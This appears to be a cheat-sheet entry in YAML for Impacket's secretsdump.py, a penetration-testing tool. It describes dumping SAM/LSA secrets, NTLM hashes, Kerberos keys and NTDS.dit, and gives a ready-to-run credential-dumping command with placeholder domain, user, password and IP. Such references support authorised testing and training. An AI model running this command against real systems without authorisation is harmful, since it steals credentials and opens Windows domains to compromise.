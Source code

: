 ```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit.  

  Command Reference:

  	Target IP: 10.10.10.1
  
  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 secretsdump.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
---
```

